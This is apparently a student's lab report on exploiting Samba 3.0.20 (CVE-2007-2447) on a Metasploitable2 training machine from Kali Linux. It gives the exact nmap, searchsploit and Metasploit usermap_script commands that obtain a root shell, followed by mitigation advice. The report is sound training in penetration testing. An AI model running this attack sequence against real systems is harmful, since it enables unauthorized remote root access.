










# Week 5 Lab Task — System Hacking & Malware Analysis

## Exploitation Report – Samba Remote Shell Access

---

## Objective

Demonstrate how a vulnerable Samba service can be identified and exploited to gain remote shell access on a target machine.

---

## Lab Setup

| Role     | System          | IP Address        |
| -------- | --------------- | ----------------- |
| Attacker | Kali Linux      | `192.168.254.128` |
| Target   | Metasploitable2 | `192.168.254.129` |

---

## Methodology

A structured penetration testing process was followed:

**Reconnaissance → Enumeration → Vulnerability Identification → Exploitation → Post-Exploitation**

---

## 1. Scanning & Enumeration

An Nmap scan was performed to identify open services and versions on the target machine.

### Command Used

```bash
nmap -sS -sV -n -Pn -T4 --top-ports=100 192.168.254.129
```

### Key Findings

* Port `139/tcp` open
* Port `445/tcp` open
* Service detected: **Samba smbd**
* Version detected: **3.0.20**

These ports indicate SMB file-sharing services exposed to the network.

<br>



---

## 2. Vulnerability Identification

The detected Samba version was researched using Searchsploit.

### Command Used

```bash
searchsploit samba 3.0.20
```

### Result

* Vulnerability found: **CVE-2007-2447**
* Exploit Type: Username Map Script Command Execution

This vulnerability exists because Samba improperly validates usernames in the username map script feature. An attacker can inject system commands and achieve remote code execution.

<br>



---

## 3. Exploitation with Metasploit

Metasploit Framework was used to exploit the Samba vulnerability.

### Start Metasploit

```bash
msfconsole
```

<br>



### Search Exploit Module

```bash
search samba usermap
```

<br>



### Select Module

```bash
use exploit/multi/samba/usermap_script
```

<br>



### Show Options

```bash
show options
```

<br>



### Configure Target & Attacker IP

```bash
set RHOSTS 192.168.254.129
set LHOST 192.168.254.128
```

<br>



### Run Exploit

```bash
run
```

<br>



---

## 4. Gaining Remote Access

The exploit successfully opened a command shell session.

### Session Access

```bash
sessions 1
```

Metasploit returned:

* **Command shell session 1 opened**

This confirms successful remote shell access to the target.

<br>



---

## 5. Post-Exploitation

System-level access was verified using standard Linux commands.

### Commands Used

```bash
whoami
id
uname -a
```

### Results

* Logged in as **root**
* Full privileged access obtained
* Linux system details confirmed

<br>



---

## Key Learnings

* Open ports do not always mean vulnerability, but they increase exposure.
* Successful exploitation requires:

  * Service identification
  * Version detection
  * Vulnerability mapping
* Misconfigured or outdated Samba services can lead to full compromise.
* Metasploitable2 is intentionally vulnerable for training purposes.

---

## Important Concepts

### Reverse Shell

The exploited target connects back to the attacker machine:

**Target → Attacker (LHOST)**

### RHOST vs LHOST

* **RHOST** = Target system
* **LHOST** = Attacker system

---

## Mitigation

To secure real-world Samba systems:

* Update Samba to the latest supported version
* Disable username map script if unnecessary
* Block SMB ports `139` and `445` using firewalls
* Enforce strong authentication
* Disable anonymous SMB access
* Monitor suspicious SMB activity

---

## Conclusion

This exercise demonstrates how attackers identify exposed services, map known vulnerabilities, and exploit weaknesses to gain unauthorized access. Understanding this attack path helps cybersecurity professionals strengthen defenses and detect real-world threats.
